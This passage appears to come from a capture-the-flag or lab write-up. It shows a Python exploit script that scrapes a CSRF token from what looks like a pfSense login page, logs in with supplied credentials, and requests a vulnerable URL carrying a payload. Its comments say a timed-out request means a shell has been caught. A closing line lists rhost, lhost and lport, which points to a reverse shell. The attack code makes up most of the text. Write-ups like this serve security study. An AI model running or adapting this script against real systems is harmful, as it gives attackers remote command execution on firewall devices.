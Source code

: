 ```
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```
We will need to supply the usual stuff; rhost, lhost, lport and credentials.
